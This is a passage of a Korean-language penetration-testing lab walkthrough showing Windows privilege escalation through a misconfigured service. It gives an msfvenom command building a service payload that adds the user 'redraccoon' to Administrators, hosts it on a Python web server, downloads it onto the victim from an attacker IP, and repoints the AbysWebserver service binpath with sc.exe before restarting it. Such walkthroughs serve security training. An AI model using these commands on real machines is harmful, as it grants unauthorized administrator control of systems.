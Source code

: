 
Step 3. 공격 페이로드 생성 및 배포
- **칼리 리눅스에서 페이로드 생성**
  ```
  msfvenom -p windows/x64/exec CMD="net localgroup Administrators redraccoon /add" -f exe-service -o test.exe
  ```
  - `-p windows/x64/exec` : 명령 실행 페이로드
  - `CMD="net localgroup Administrators redraccoon /add"` : redraccoon 계정을 관리자 그룹에 추가
  - `-f exe-service` : 서비스 실행 파일 포맷 **(일반 exe와 다름, 서비스로 동작)**
  - `-o Abyss.exe` : 출력 파일명


- **공격 파일 배포**
  - 칼리에서 웹서버 실행:
  ```
  python3 -m http.server 80
  ```
  - 희생자에서 다운로드:
  ```
  wget http://<공격IP>/test.exe -OutFile C:\opt\test.exe
  ```

Step 4. 서비스 실행 경로(binPath) 변경
```powershell
sc.exe config AbysWebserver binpath= "C:\Users\redraccoon\Desktop\test.exe"
```
- **⚠️주의:** `binpath=` 뒤에 반드시 공백이 있어야 함

- 변경 확인
  - ```powershell
     sc.exe qc AbysWebserver
     ```
    BINARY_PATH_NAME이 페이로드 경로로 변경된 것 확인

Step 5. 서비스 재시작 및 권한 상승 확인
- **서비스 재시작**
  ```powershell
  Restart-Service AbysWebserver
  ```

- **권한 상승 확인**
  ```powershell
  net localgroup Administrators
  ```

- `redraccoon` 계정이 관리자 그룹에 추가되어 있으면 성공

---

